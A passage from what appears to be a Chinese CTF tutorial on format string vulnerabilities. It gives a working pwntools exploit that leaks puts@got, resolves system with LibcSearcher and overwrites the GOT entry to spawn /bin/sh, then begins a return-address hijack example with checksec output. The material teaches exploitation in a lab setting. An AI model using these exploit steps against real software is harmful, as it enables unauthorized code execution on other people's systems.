 ```python
##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```

注意

- 我在获取puts函数地址时使用的偏移是8，这是因为我希望我输出的前4个字节就是puts函数的地址。其实格式化字符串的首地址的偏移是7。
- 这里我利用了pwntools中的fmtstr_payload函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里fmtstr_payload(7, {puts_got: system_addr})的意思就是，我的格式化字符串的偏移是7，我希望在puts_got地址处写入system_addr地址。默认情况下是按照字节来写的。

## hijack retaddr

### 原理

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

### 例子

这里我们以三个白帽-pwnme_k0为例进行分析。

#### 确定保护

```shell
➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
